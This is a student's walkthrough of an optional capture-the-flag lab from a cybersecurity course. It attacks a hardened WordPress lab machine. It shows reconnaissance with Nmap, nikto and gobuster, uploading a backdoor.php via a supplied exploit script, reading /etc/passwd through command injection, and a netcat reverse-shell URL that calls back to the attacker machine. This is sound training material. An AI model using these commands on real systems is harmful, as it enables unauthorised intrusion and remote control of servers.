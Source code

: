 ## Activity File: Attacking Target 2 (Optional)


Please note, **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, make sure you complete the Wireshark analysis.

Target 2 exposes the same WordPress site as Target 1, but with better security hardening. Therefore, it must be exploited differently than Target 1. 

The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.


### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2.

![netdiscover](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/1NETDISCOVERFORMACHINES.jpg)

2. Use Nmap to document all exposed ports and services at this IP address.

![nmapSS](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/2NMAPSSTARGET2.jpg)

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?
    
![nikto](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/4NIKTOSCAN.jpg)

This target is running an Apache webserver with WordPress.

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
      
   ### First, run...
   
      `sudo apt-get update`
    
    ### Then run...
            
                 `sudo apt-get install gobuster`

 ![gobusterupdate](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/6INSTALLGOBUSTER-WORKED.jpg)
     
      - Run `gobuster -w /path/to/wordlist dir -u <URL>
        
      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      
 ![gobusterinstall](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/7RUNGOBUSTER1.jpg)
      
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...

### It appears that the directories available are /img, /css, /wordpress, /manual, /js, /vendor. Since I was directed to the /vendor directory, we ran this: 
    `gobuster dir -u http://192.168.1.115/vendor -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
 
 ![gobustervendor](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/8GOBUSTER-VENDOR.jpg)

Ran `firefox http://192.168.1.115/Vendor` and then began snooping through the contents. Selected "Path" and found Flag 1.
 
 ![flag1](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/16FLAG1.jpg)
 
5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`
    
    `searchsploit -u` to update
    
    `searchsploit open ssh`
    
    ![searchsploitexample](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/15SEARCHSPLOIT-OPEN-SSH.jpg)
    
    `searchsploit wordpress`
    

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.
   
   I edited it using nano as follows:

![nanoexploitfile](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/17NANOeXPLOIT.jpg)

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.
`bash exploit.sh` Runs the script

![bashresult](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/18BashExploitResult.jpg)

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
    
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`
      
![bashbackdoorexample](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/19BASHSCRIPTTHROUGHBACKDOOR.jpg)

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
 
 ![sshbackdoorlistener](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/20listeningon4444SSHIN.jpg)
 
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.
      
http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

![flag2](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/21FLAG2.jpg)

8. Next, find a flag in the WordPress uploads directory.

`ls`
`cd wordpress`
`cd wp-content`
`cd uploads`
`cd 2018`
`cd 11`
See "flag3.png"

![flag3](https://github.com/skyeskyeskye/PENN_CYBERSECURITY_FINAL/blob/main/Target_2/Images/22FLAG3.jpg)

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
